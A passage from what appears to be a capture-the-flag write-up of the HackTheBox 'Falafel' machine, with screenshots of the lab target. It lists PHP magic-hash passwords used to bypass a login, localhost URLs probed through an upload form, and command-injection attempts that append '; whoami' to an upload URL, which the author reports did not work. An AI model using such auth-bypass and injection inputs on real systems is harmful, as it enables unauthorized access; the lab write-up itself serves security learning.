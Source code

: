 ```html
# http://10.129.229.139/login.php
# --> admin:240610708   admin:QNKCDZO   admin:aabg7XSs      :)

# http://10.129.229.139/upload.php
# http://127.0.0.1:22/                :(
# http://127.0.0.1:80/                :(
# http://127.120.30.1:80/             :(
# http://127.12.14.1:80/              :(
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

As I can't leak information from the system, then I can try with methods for complex, but I'm going to try what file extensions I can upload, I already knew that the **.txt** were not allowed, according to what the **robots.txt** indicated me. The extensions related to images are allowed, but what catches my attention is that you can see on the screen the command that is running on the system. I may try to concatenate some command to test if the code is not sanitized, but after several attempts **I can't get any successful response**.

```bash
touch {test.txt,test.png,test.php}

# http://10.10.14.238/test.png; whoami
# http://10.10.14.238/test.png; whoami;
# http://10.10.14.238/test.png; whoami;#
# http://10.10.14.238/test.png; whoami#
# http://10.10.14.238/test.png; whoami#;
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/falafel_writeup/Falafel_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
